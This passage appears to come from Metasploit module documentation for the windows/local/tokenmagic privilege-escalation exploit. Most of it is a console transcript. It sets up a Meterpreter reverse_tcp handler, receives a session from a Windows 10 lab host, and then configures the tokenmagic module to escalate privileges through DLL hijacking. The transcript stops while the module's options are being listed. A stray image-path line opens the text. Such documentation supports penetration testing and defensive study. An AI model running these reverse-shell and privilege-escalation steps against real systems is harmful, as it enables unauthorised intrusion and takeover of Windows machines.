   **WRITABLE_DIR**
  Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Windows 10 x64 1803 (Build 17134) via DLL Hijacking
```
msf > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
emsf exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.135:49941) at 2021-05-14 12:38:30 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf exploit(multi/handler) > use windows/local/tokenmagic
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/tokenmagic) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(windows/local/tokenmagic) > set lport 4443
lport => 4443
msf exploit(windows/local/tokenmagic) > set session 1
session => 1
msf exploit(windows/local/tokenmagic) > set method DLL
method => DLL
msf exploit(windows/local/tokenmagic) > options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   METHOD            DLL              yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
```